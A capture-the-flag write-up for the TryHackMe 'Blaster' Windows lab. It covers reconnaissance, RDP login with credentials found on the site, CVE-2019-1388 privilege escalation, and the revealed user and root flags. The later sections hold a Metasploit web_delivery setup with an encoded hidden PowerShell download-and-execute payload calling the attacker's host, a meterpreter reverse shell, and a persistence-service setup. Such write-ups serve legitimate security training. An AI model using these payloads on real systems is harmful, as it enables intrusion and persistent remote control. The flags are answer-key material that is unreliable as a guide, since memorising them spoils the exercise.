



# Blaster


> 🔬🌐 [Blaster](https://tryhackme.com/room/blaster)
>
> *Throughout this room, we'll be looking at alternative modes of exploitation without the use of Metasploit or really exploitation tools in general beyond nmap and dirbuster.*
>
> 

## Recon

```bash
mkdir blaster
cd blaster
nmap 10.10.27.22
	80/tcp   open  http
	3389/tcp open  ms-wbt-server

nmap -sCV -Pn 10.10.27.22 -oA blaster
```

```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-10T15:30:58+00:00
|_ssl-date: 2023-05-10T15:31:02+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-09T15:25:48
|_Not valid after:  2023-11-08T15:25:48
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
```

Discover IIS Webserver hidden directories

```bash
# FFUF
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.27.22/FUZZ
	retro  [Status: 301, Size: 149, Words: 9, Lines: 2]
	Retro  [Status: 301, Size: 149, Words: 9, Lines: 2]

# GOBUSTER
gobuster dir -u http://10.10.27.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

	/retro  (Status: 301) [Size: 148] [--> http://10.10.27.22/retro/]
```

Navigate to


- `http://10.10.27.22/Retro/`
- `http://10.10.27.22/retro/index.php/2019/12/09/ready-player-one/`

> 📌 `Wade`:`parzival`
>

```bash
xfreerdp /u:Wade /p:parzival /v:10.10.27.22

# or use Remmina
```

Read **`user.txt`** file.


<details>
<summary>Reveal Flag - user.txt: 🚩</summary>


`THM{HACK_PLAYER_ONE}`


</details>

### Local Recon
Check Internet Explorer history.

- `CVE-2019-1388` - Windows Privilege Escalation Through UAC
- `hhupd.exe` on desktop

## Privilege Escalation

- Use `hhupd.exe` to exploit the privilege escalation vulnerability present in the Windows Certificate Dialog box, a bug in the UAC mechanism
  - `cmd` user: `nt authority\system`




```bash
cd c:\Users\Administrator\Desktop
type root.txt
```


<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{COIN_OPERATED_EXPLOITATION}`


</details>

## Exploitation

```bash
msfconsole -q
```

```bash
use exploit/multi/script/web_delivery
show targets
set target 2
set payload windows/meterpreter/reverse_http
set LHOST tun0
set LPORT 9090
run -j
```

- Run the following command on the target machine
  - copy it in a file and host the file on a Python http server


```bash
nano payload

powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABwAE0AaQBSAE0APQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAcABNAGkAUgBNAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAcABNAGkAUgBNAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA4AC4ANgA1AC4ANAA4ADoAOAAwADgAMAAvAGYAaABGAHQATQBpAC8AbQAxAEQAMwBWADIAawBpAGkAJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAOAAuADYANQAuADQAOAA6ADgAMAA4ADAALwBmAGgARgB0AE0AaQAnACkAKQA7AA==
```

```bash
python -m http.server
```

- Open the link on the target machine
  - `http://10.18.65.48:8000/payload`

- Copy the code and paste it in the opened `CMD`
- Check the spawned reverse shell in Metasploit



```bash
getuid
sysinfo
```

```bash
Server username: NT AUTHORITY\SYSTEM

Computer        : RETROWEB
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

## Persistence

```bash
run persistence -X # Deprecated

# Manual
background
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
set SESSION 1
set SERVICE_NAME spool1
run
```

```bash
# Regain access using the persistence service
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
run
```

- *Windows Defender blocked the persistence service payload in this case*



------

